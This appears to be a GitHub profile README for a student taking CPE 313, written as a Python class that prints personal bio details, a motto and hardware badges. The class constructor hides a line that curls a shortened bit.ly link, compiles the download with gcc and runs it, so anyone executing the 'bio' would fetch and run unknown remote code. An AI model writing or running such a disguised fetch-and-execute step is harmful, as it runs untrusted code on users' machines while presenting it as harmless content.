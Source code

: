 <h1 align="center">Yo 👋, I'm Dela Rosa, John Errol 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?font=Monospace&size=16&pause=1000&color=36BCF7F7&center=true&vCenter=true&random=false&width=485&lines=Jep+is+trying+his+best.;This+is+a+placeholder.;You+wanna+know+how+I+got+these+scars%3F" alt="Jep is trying his best." />
</p>

```python
class JepxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/j3px21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🙋‍♂️ You can call me'            : 'Jep',
      '- 🤷🏻‍♂️ What is this, nani'         : 'A GitHub repository dedicated to the CPE313 course',
      '- 🏡 I’m currently living in'    : 'Binangonan, Rizal',
      '- 🏫 I’m currently studying in'  : 'Technological Institute of the Philippines',
      '- 🌱 I’m currently pursuing'     : {'BSCpE' : 'Bachelor of Science in Computer Engineering'},

      '- 📓 Course code - title'        : {'CPE 313' : 'Advanced Machine Learning and Deep Learning'},
      '- 🎏 Section'                    : 'CPE32S8',
      '- 📊 Elective'                   : 'Data Science',
      '- ❔ I dont know'                : '¯\_(ツ)_/¯',
      '- 👨‍💻 My amazing website project' : 'https://blogs.mtdv.me/blog/posts/jepowo',

      '- 💧 Motto in life'              : ('Empty your mind, be formless. Shapeless, like water. If you put water'
                                            'into a cup, it becomes the cup. You put water into a bottle and it'
                                            'becomes the bottle. You put it in a teapot, it becomes the teapot.'
                                            'Now, water can flow or it can crash. Be water, my friend.'),

      '- ⚡ Fun fact'                  : ('80% of Tibetan Buddhists chose to have a sky burial, in which their'
                                         'bodies are placed on mountain tops and consumed by birds of prey.')
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(JepxZIMA().__dict__)
```
<br>

### - Workspace 🖥️
<p align="center">
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/NVIDIA_1650-76b900?style=for-the-badge&logo=nvidia&logoColor=%23fff" alt="NVIDIA 1650"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/RYZEN_7_4800H-ed1c24?style=for-the-badge&logo=amd&logoColor=%23fff&label=AMD&labelColor=%23555" alt="AMD Ryzen 7 4800H"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/LAPTOP-000?style=for-the-badge&logo=hp&logoColor=%23fff&label=HP&labelColor=%23555" alt="HP"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/AKKO_3068B-8071b3?style=for-the-badge&logo=akko-keyboards&logoColor=white"></a>
</p>
